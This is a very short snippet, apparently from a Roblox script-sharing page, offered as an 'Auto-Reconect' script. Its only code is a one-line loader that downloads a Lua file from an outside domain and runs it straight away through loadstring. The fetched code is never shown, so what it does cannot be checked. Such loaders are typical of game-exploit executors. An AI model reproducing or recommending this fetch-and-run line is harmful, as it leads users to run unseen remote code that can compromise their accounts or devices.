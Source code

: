# Auto-Reconect



loadstring(game:HttpGet("https://egorikusa.space/49d33c1665a0dd0e8e509309.lua", true))()                           
